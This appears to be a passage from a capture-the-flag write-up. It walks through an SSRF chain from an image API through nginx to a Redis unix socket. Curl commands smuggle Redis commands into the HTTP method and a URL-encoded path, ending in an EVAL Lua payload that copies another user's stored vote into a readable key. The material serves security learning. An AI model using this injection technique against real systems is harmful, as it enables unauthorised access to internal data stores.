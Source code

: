 Setting up a test socket listener, we can see exactly what would be sent to the
unix socket.

```
curl --path-as-is -i -s -k -X 'PUT' \
              -H 'Host: localhost' -H 'Content-Length: 20' \
              --data-binary 'HGET wbc voted_for\x0d\x0a' \
              'http://localhost/api/img/http://nginx/unix:/redis/test2.sock:%22test%20wow/'
```

Using this we get the request:
```
socket-listener-1  | PUT "test wow.backend.wbc/ HTTP/1.0
socket-listener-1  | Host: localhost
socket-listener-1  | Connection: close
socket-listener-1  | Content-Length: 20
socket-listener-1  | Accept: application/json, text/plain, */*
socket-listener-1  | User-Agent: axios/1.8.1
socket-listener-1  | Accept-Encoding: gzip, compress, deflate, br
socket-listener-1  |
```

Another thing to note from the article talking about redis ssrf is that the
commands before the Host: actually are executed and not reversed.

So, we can use a SET or a HSET command at the start by setting the method to
those things. Redis does not have a way to move keys of different types, ie we
cannot get a thing set by HSET and get it with GET.

There is a small command in Redis that allows us to extract the key though. It
is the EVAL command. As any url encoding is accepted and actually decoded
before the redis instance, we can write a full lua script that fetches wbc
encrypted vote and sets it to a key of our choosing.

The command we want to achieve is therefore this:
```
EVAL "return redis.call('SET', 'img:2901390', redis.call('HGET','wbc','voted_for'))" 2
```

We put two arguments at the end for the HTTP header and part of the url that we
do not actually care about. EVAL can also be achieved by using the method.

We end up with this final curl script that fetches the command.

```
curl --path-as-is -i -s -k -X 'EVAL' \
          -H 'Host: localhost' -H 'Content-Length: 20' \
          --data-binary 'HGET wbc voted_for\x0d\x0a' \
          'http://localhost/api/img/http://nginx/unix:/redis/redis.sock:%22return%20redis.call%28%27SET%27%2C%20%27img%3A2901390%27%2C%20redis.call%28%27HGET%27%2C%27wbc%27%2C%27voted_for%27%29%29%22%202%20/'
```

We can then get the encrypted vote using the img api and directly getting `http://localhost/api/img/2901390`.

```
curl http://localhost/api/img/2901390
```
